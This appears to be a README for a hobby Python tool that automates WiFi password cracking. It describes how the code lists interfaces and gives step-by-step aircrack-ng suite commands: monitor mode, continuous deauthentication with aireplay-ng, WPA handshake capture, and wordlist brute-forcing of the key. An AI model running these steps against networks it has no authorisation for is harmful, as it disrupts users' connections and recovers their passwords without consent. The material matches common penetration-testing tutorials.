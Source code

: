 ## How it works
- The entry point is master.py, which displays all the possible options.
- First option is to display all the available interfaces. In order to do this, master.py calls **listInterfaces** function which in turn calls DetectInterface.py with its execIW() function. The execIW() function runs ``ip link show`` to list all the available interfaces and stores the output in an ephemeral file **interfaces.txt**. **listInterfaces()** then does some string manipulation to carve out the interface names and deletes the **interfaces.txt** file. It also returns the interfaces list to master.py which is then displayed.



## Procedure[David Bombal video]
1. Select a Wireless Adapter that supports monitor mode and packet injection
2. Choose a WiFi network or AP to attack
3. Run `sudo airmon-ng check kill` to kill any conflicting processes
4. Run `sudo airmon-ng start {interface}` to activate Monitor Mode
5. Run `sudo airodump-ng {interface}mon` to get the AP's MAC address and channel
6. In one window, `sudo airodump-ng -w {output file} -c {channel} --bssid {MAC of AP} {interface}mon`.This will keep outputting packets as a pcap file.
7. In second window, `sudo aireplay-ng --deauth 0 -a {MAC of AP} {interface}mon`. This performs the deauth.
8. As soon as "WPA handhsake" appears in the second window, stop the outputting of packets in the first window.
9. Put interface back into managed mode
10. Run `aircrack-ng hack-01.cap -w {wordlist}` to brute force the key data present in hack-01.cap output file.
------------------------------------------------------------------------------------------------------------------------------------------------------------

## Errors to fix
1. If interface is already in monitor mode, do not return "Interface does not support monitor mode". Instead deactivate it, then resume normal operation
2. Check for packet injection on the wireless interface as well
3. Weird issues persisting in scanning. Try to kill conflicting processes
4. Unpredictable naming conventions of the Interfaces is problematic
